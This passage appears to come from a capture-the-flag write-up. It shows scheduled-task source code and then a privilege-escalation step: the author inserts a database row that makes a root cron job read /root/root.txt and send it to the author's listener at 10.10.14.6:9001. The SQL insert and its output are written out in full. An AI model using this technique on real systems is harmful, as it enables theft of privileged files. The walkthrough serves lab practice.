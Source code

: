                 $frequency = $task->frequency;
    
                $schedule->call(function () use ($task) {
                    /*  Run your task here */
                    HealthChecker::check($task->webhookUrl, $task->monitoredUrl, $task->onlyError);
                    Log::info($task->id . ' ' . \Carbon\Carbon::now());
                })->cron($frequency);
            }
        }
    

It’s fetching the tasks from the DB, and then calling `HealthChecker::check`
on each.

### File Read as root

#### Strategy

Every minute, the root is going to pull all the rows from the `tasks` table
and try to `file_get_contents` each. If `onlyError` is set to False, then it
will send the contents to the webook in the DB.

If I can write to the DB, I can skip the URL validation, and have root read
files and exfil them to me.

#### Flag

I’ll test this by trying to read the flag. I’ll have `nc` listen on 9001. I’ll
add a row to the `tasks` table with my host port 9001 as the webhook URL, and
`root.txt` as the URL to monitor:

    
    
    mysql> insert into tasks (id, webhookUrl, onlyError, monitoredUrl, frequency) values ('223', 'http://10.10.14.6:9001/exfil', 0, '/root/root.txt', '* * * * *');
    Query OK, 1 row affected (0.00 sec)
    

It yells at me if I don’t give it an ID, so I’ll make an arbitrary one.

It looks good:

    
    
    mysql> select * from tasks;                                                                                                                
    +-----+------------------------------+-----------+----------------+-----------+------------+------------+
    | id  | webhookUrl                   | onlyError | monitoredUrl   | frequency | created_at | updated_at |
    +-----+------------------------------+-----------+----------------+-----------+------------+------------+
    | 223 | http://10.10.14.6:9001/exfil |         0 | /root/root.txt | * * * * * | NULL       | NULL       |
    +-----+------------------------------+-----------+----------------+-----------+------------+------------+
    1 row in set (0.00 sec)
    

When the clock reaches the next minute, there’s a connection at `nc`:
